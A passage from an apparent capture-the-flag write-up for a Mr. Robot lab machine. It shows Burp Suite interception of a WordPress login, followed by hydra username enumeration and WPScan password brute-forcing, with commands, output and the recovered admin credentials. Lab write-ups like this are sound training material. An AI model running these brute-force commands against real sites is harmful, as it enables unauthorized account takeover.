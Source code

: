 To do that, a manual proxy must be configured in the browser (FireFox) and Burp Suite should have the same proxy listener set:

![proxy-browser](https://www.dropbox.com/s/gmy9hh0pjqyqwgz/proxy.jpg?dl=1)

![proxy-burpsuite](https://www.dropbox.com/s/5256rk1t5vthmws/burpsuite-proxy.png?dl=1)

To intercept the http POST request, I have filled the WordPress login form with random credentials:

- **Username**: Test
- **Password**: Password123

![burpsuite](https://www.dropbox.com/s/a6ay1bq6thlap7m/burpsuite.png?dl=1)

In the intercepted POST request - that has been sent to the server - we're interested in the `log`, `pwd`, and the `wp-submit` fields.

### Hydra

Based on the captured http POST request, we can use **hydra** to guess the username:

```sh
kali@kali$ hydra -V -L fsocity.dic -p 123 10.38.1.111 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

<details><summary>Explain this command</summary></details>

**hydra** has found 3 possible usernames: `elliot`, `Elliot` and `ELLIOT`.

```sh
[80][http-post-form] host: 10.38.1.111 login: elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: Elliot password: 123
[80][http-post-form] host: 10.38.1.111 login: ELLIOT password: 123
```

### WPScan

**WPScan** can be used to find additional WordPress vulnerabilities and to brute force the password using the word list.

```sh
kali@kali$ wpscan --url 10.28.1.111 --passwords /home/kali/mrrobot/wordlist.dic --usernames Elliot
```

```sh
[+] performing password attach on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot - / ER28-0652
All Found
Progress Time: 00:00:19 <========================================================================

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

**WPScan** has found several outdated plugins and one valid username - password pair.<br>
Testing the credentials, we can log in to the WordPress administration interface indeed.
